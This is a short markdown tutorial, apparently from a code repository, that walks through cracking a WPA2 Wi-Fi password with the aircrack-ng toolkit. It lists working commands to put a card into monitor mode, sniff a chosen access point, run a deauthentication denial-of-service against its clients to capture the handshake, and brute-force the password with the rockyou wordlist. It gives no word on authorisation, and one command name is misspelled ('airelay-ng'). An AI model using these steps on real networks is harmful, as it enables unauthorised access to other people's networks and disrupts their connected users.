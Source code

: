 # Performing WPA2 Password Cracking with AirCrack Toolkit

1.  Killing wireless interface blocking processes
```
airmon-ng check kill
```

2. Switching wireless interface into monitoring mode
```
airmon-ng start wlan0
```

3.  Sniffing wireless traffic on all channels
```
airodump-ng wlan0mon
```

4. Sniffing wireless traffic on selected channel (channel 1 in following example)
```
airodump-ng -c 1 wlan0mon
```

5. Sniffing wireless traffic on selected channel and selected AP MAC and writing data to a file (OURFILE)
```
airodump-ng -w OURFILE -c 1 --bssid 1c:1d:86:b6:c4:e0 wlan0mon
```

6. Performing DoS attack to disconnect all clients connected to the provided Access Point (AP)
    - Run the following command in new terminal window in parallel with airodump-ng command
    - Stop the command execution after a few packets and check the airodump-ng window if Handshake is captured.
```
airelay-ng -0 0 -a 1c:1d:86:b6:c4:e0 wlan0mon
```

7. If the handshake is captured successfully, we will need a wordlist to perform dictionary attacks. Kali Linux provides with a wordlist with more than 10 million passwords called rockyou.txt which is compressed in .gz. You can decompress the file with following command
    - If decompressed once, below command is not required and won't work.
```
gunzip /usr/share/wordlists/rockyou.txt
```

8. After the wordlist is decompressed, we will use aircrack-ng for cracking the WPA2 password by providing the captured handshake .cap file and wordlist as input.
```
aircrack-ng OURFILE-01.cap -w /usr/share/wordlists/rockyou.txt
```

9. Thus, you will successfully be able to crack the Wi-Fi WPA2 Password.

10. To run your Wi-Fi interface card back to normal mode, use the following command.
```
airmon-ng stop wlan0mon
service network-manager restart
```

